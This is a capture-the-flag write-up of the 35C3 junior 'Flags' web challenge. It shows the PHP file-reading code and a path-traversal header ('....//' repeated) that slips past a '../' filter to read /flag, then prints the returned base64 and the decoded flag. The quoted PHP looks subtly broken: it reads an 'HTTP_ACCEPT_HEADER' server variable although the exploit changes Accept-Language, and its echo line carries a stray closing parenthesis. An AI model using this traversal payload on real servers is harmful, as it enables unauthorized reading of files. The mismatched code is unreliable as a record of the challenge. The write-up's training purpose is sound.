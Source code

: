 ```yaml
---
layout: post
title: "Solution to junior 35c3 ctf flags"
author: capitol
category: ctf
---
```


![flags](/images/multiple-flags.jpg)

##### name:
Flags

##### category:
web

##### points:
500 (variable)

#### Writeup

This was the challenge we got:

> Fun with flags: http://35.207.169.47
> 
> Flag is at /flag
> 
> Difficulty estimate: Easy

# Walkthrough

We got the server side code, which looks like this:

```php
<?php
  highlight_file(__FILE__);
  $lang = $_SERVER['HTTP_ACCEPT_HEADER'] ?? 'ot';
  $lang = explode(',', $lang)[0];
  $lang = str_replace('../', '', $lang);
  $c = file_get_contents("flags/$lang");
  if (!$c) $c = file_get_contents("flags/ot");
  echo '<img src="data:image/jpeg;base64,' . base64_encode($c) . '">');
```

The objective was to read the file at `/flag` on the file system. When loading the 
web page, one is most likely to get a warning from PHP hinting that there is no file 
at the `flags/$LANG` path from PHP, where $LANG is the user's language.

The embedded PHP suggests that whatever is at that file path is base64-encoded and 
pushed directly into the image part of the page response.

By manipulating the `Accept-Language` request header, one can alter what file is 
requested. But, all input values are sanitsed by replacing `"../"` in the input 
strings with `""`.

By changing the request header to the following:

```
Accept-Language: ....//....//....//....//flag
```

The image header turns into this:

```
<img src="data:image/jpeg;base64,MzVjM190aGlzX2ZsYWdfaXNfdGhlX2JlNXRfZmw0Zwo=">
```

Which, when decoded, yields the flag `35c3_this_flag_is_the_be5t_fl4g`.
